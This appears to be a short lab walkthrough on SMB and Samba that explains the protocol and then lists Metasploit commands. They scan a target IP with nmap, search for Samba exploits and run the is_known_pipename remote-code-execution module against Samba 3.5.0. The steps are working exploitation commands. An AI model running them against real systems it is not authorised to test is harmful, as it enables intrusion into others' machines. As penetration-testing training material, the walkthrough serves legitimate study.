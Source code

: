 
SMB (Server Message block) is a network file sharing protocol used to enable sharing of files between devices on a local network.<br>
SMB runs on TCP port 445 by default.<br>
Samba is Linux version of SMB
##### VULNERABILITY:
`Samba v3.5.0` is vulnerable to a RCE vulnerability.

#### INITIAL ENUMERATION
```
db_nmap -sV 192.184.183.3
```

#### FINDING SAMBA EXPLOIT
```
search type:exploit name:samba
```

#### EXPLOITATION
```
use exploit/linux/samba/is_known_pipename
setg RHOSTS 192.184.183.3
exploit
```

use `check` command to check whether the target is Vulnerable!
